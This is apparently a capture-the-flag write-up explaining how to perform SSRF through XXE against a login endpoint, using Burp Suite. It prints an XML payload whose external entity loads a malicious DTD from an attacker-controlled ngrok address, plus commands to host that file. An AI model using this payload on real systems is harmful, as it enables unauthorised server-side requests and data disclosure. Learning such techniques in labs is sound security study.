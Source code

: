 To perform an SSRF with XXE, we need two things: A malicious dtd file that we host and a maliciously crafted request to the webserver. 

First lets look at how the request should be crafted. In Burp Suite, find the requst being made to `/check_login.php`. Right click on this and hit send to repeater. This is the request that we are going to need to manipulate. 

Go to the repeater tab and then replace everything after `Connection: close` in the raw request with: 

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://275d42ab779c.ngrok.io/mal.dtd" > %xxe;] >
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```
*You will need to replace the ngrok address with whatever address you are assigned in the next step*

Next lets create our malicious dtd file. We will host the malicious dtd file with ngrok and http like we did in Web 400: 

Command to start ngrok tunnel: `ngrok http 8000`

Command to start python server: `python3 -m http.server`

![Web 400](images/web400-4.gif)
